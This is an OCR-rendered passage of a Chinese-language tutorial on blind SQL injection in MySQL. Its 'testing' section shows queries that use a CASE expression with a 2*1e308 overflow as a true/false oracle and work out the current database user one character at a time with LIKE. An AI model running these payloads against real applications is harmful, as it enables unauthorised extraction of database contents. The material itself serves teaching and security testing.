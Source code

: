 

```plain
mysql> select * from tdb_goods where goods_id=1;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```



# 0x02 测试



- 注意:
- 如果使用了like又使用了延时会导致全表查询
- 例如:
- tdb_goods 表 数据为 23 条
- 延时 0.1S
- 0.1 * 23 = 2.3S 最后会延时2.3S 所以要尽量避免这样干



```plain
// 正确的情况
// 会返回原来的数据页面保持不变
mysql> select * from tdb_goods where goods_id=1-case when 1 like 1 then 0 else 2*1e308 end;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```



```plain
// 查询current_user数据正确的情况
// 会返回原来的数据页面保持不变，说明 current_user 第一位为 “r”
mysql> select * from tdb_goods where goods_id=1-case when current_user like 'r%' then 0 else 2*1e308 end;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```
